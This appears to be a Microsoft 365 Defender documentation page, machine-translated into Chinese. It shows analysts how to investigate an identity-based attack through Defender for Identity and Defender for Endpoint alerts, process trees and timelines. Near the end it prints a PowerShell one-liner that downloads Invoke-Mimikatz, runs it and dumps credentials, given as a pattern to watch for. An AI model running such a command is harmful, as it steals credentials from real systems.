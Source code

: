 ```yaml
---
title: 基于身份的攻击示例
description: 逐步完成基于身份的攻击的示例分析。
keywords: 事件， 警报， 调查， 关联， 攻击， 计算机， 设备， 用户， 标识， 标识， 邮箱， 电子邮件， 365， microsoft， m365， 事件响应， 网络攻击
search.product: eADQiWindows 10XVcnh
ms.prod: m365-security
ms.mktglfcycl: deploy
ms.sitesec: library
ms.pagetype: security
f1.keywords:
- NOCSH
ms.author: josephd
author: JoeDavies-MSFT
localization_priority: Normal
manager: dansimp
audience: ITPro
ms.collection:
- M365-security-compliance
- m365initiative-m365-defender
ms.topic: conceptual
search.appverid:
- MOE150
- MET150
ms.technology: m365d
ms.openlocfilehash: c028289a58247075c33e85d6d6f3797b3ddad7b4
ms.sourcegitcommit: de5fce90de22ba588e75e1a1d2e87e03b9e25ec7
ms.translationtype: MT
ms.contentlocale: zh-CN
ms.lasthandoff: 05/10/2021
ms.locfileid: "52297184"
---
```

# <a name="example-of-an-identity-based-attack"></a>基于身份的攻击示例

[!INCLUDE [Microsoft 365 Defender rebranding](../includes/microsoft-defender.md)]

**适用于：**
- Microsoft 365 Defender

Microsoft Defender for Identity 可以帮助检测恶意尝试来破坏你组织中的身份。 由于 Defender for Identity 与 Microsoft 365 Defender 集成，因此安全分析师可以了解来自 Defender for Identity 的威胁，例如可疑的 Netlogon 特权提升尝试。

## <a name="analyzing-the-attack-in-microsoft-defender-for-identity"></a>分析 Microsoft Defender 中针对标识的攻击

Microsoft 365 Defender 允许分析员按事件页面的"警报"选项卡上的检测源筛选警报。 在下面的示例中，将检测源筛选为 Defender **for Identity**。 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mdi-filter.png" alt-text="筛选 Defender for Identity 的检测源的示例":::

选择 **可疑的哈希攻击警报** 将转到 Microsoft Cloud App Security 中显示更多详细信息的页面。 通过选择"了解有关此警报类型"以阅读攻击描述以及修正建议，你始终可以了解有关警报或[](https://docs.microsoft.com/defender-for-identity/lateral-movement-alerts#suspected-overpass-the-hash-attack-kerberos-external-id-2002)攻击的更多信息。
 
:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-alert-example.png" alt-text="可疑的哈希攻击警报示例"::: 

## <a name="investigating-the-same-attack-in-microsoft-defender-for-endpoint"></a>调查 Microsoft Defender for Endpoint 中的相同攻击

或者，分析员可以使用 Defender for Endpoint 了解有关终结点上活动更多信息。 从事件队列中选择事件，然后选择" **警报"** 选项卡。在这里，他们还可以识别检测源。 标记为 EDR 的检测源表示终结点检测和响应，即终结点的 Defender。 分析员从此处选择 EDR 检测到的警报。

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-edr.png" alt-text="Defender for Endpoint 中的终结点检测和响应示例"::: 

警报页面显示各种相关信息，如影响的设备名称、用户名、自动调查的状态以及警报详细信息。 警报情景描述进程树的可视化表示形式。 进程树是与警报相关的父进程和子进程的分层表示形式。

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-mde-tree.png" alt-text="Defender for Endpoint 中的警报进程树示例"::: 

可以展开每个进程以查看其他详细信息。 分析师可以看到的详细信息是作为恶意脚本的一部分输入的实际命令、出站连接 IP 地址和其他有用信息。

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-process-details.png" alt-text="Defender for Endpoint 中进程详细信息的示例":::
 
通过选择 **"在时间线中** 查看"，分析员可以进一步向下钻取以确定泄露的确切时间。 

Microsoft Defender for Endpoint 可以检测许多恶意文件和脚本。 但是，由于出站连接、PowerShell 和命令行活动的许多合法用途，某些活动在创建恶意文件或活动之前被视为恶意活动。 因此，使用时间线可帮助分析员将警报置于与周围活动的上下文中，以确定攻击的原始源或时间，否则，常见文件系统和用户活动会掩盖这些攻击。 

为完成此操作，分析员将在警报检测 (以红色) 并及时向后滚动，以确定导致恶意活动的原始活动何时实际启动。 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-start-time.png" alt-text="警报检测时开始的示例"::: 

必须了解并区分常见活动，如 Windows 更新连接、Windows 受信任软件激活流量、与 Microsoft 站点的其他常见连接、第三方 Internet 活动、Microsoft Endpoint Configuration Manager 活动和其他恶意活动与可疑活动。 实现此目的的一个方法就是使用时间线筛选器。 有许多筛选器可在筛选掉分析员不想查看的一切内容时突出显示特定活动。 

在下图中，分析员经过筛选，以便仅查看网络和处理事件。 这样，分析员就可以看到围绕记事本与 IP 地址建立连接的事件的网络连接和进程，我们还在进程树中可以看到这一点。 

:::image type="content" source="../../media/first-incident-path-identity/first-incident-identity-notepad.png" alt-text="如何使用记事本建立恶意出站连接的示例"::: 

在此特定事件，记事本用于建立恶意出站连接。 但是，攻击者通常只会iexplorer.exe来建立连接来下载恶意负载，因为通常iexplorer.exe进程被视为常规 Web 浏览器活动。

时间线中要查找的另一项是 PowerShell 用于出站连接。 分析员会通过命令（如 后跟托管恶意文件的网站的出站连接）查找成功的 PowerShell `IEX (New-Object Net.Webclient)` 连接。 

在下面的示例中，PowerShell 用于从网站下载和执行 Mimikatz：

```powershell
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds
```
分析员可以通过在搜索栏中键入关键字来快速搜索关键字，以仅显示使用 PowerShell 创建的事件。 

## <a name="next-step"></a>后续步骤

请参阅 [网络钓鱼调查](first-incident-path-phishing.md) 路径。

## <a name="see-also"></a>另请参阅

- [事件概述](incidents-overview.md)
- [管理事件](manage-incidents.md)
- [调查事件](investigate-incidents.md)
